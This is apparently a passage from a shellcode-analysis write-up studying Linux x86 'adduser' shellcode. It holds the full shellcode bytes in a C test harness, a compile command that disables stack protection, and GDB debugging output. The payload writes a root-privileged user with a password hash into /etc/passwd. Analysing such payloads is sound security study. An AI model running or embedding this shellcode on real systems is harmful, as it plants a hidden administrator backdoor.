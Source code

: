 ```
00000052  51                push ecx
00000053  FC                cld
00000054  6A04              push byte +0x4
00000056  58                pop eax
00000057  CD80              int 0x80
00000059  6A01              push byte +0x1
0000005B  58                pop eax
0000005C  CD80              int 0x80
Lets prepare our skeleton to run our shell-code.
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x6f\x78"
"\x64\x69\x70\x73\x79\x3a\x41\x7a\x32\x4d\x6e\x52\x70\x37\x6f"
"\x78\x4b\x58\x51\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"
"\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"
"\x01\x58\xcd\x80";
int main(){
printf("Shellcode Length:  %d\n", strlen(shellcode));
int (*ret)() = (int(*)())shellcode;
ret();
return 0;
}
```
Compile it:
```
dipsy@ubuntu:~$ gcc adduser.c -o adduser -z execstack -fno-stack-protector
```

# Analyzing SYS-CALLS (MOV AL, 0x46)

Lets start Debugging with GDB 
Running the program, setting a break-point at call EAX, which is equivalent to ret(), and run:
```
dipsy@ubuntu:~$ sudo gdb ./adduser 
[sudo] password for dipsy:
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/dipsy/Desktop/Assignments/Analysis/adduser...(no debugging symbols found)...done.
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x080483e4 <+0>: push   ebp
   0x080483e5 <+1>: mov    ebp,esp
   0x080483e7 <+3>: push   edi
   0x080483e8 <+4>: and    esp,0xfffffff0
   0x080483eb <+7>: sub    esp,0x30
   0x080483ee <+10>: mov    eax,0x804a040
   0x080483f3 <+15>: mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080483fb <+23>: mov    edx,eax
   0x080483fd <+25>: mov    eax,0x0
   0x08048402 <+30>: mov    ecx,DWORD PTR [esp+0x1c]
   0x08048406 <+34>: mov    edi,edx
   0x08048408 <+36>: repnz scas al,BYTE PTR es:[edi]
```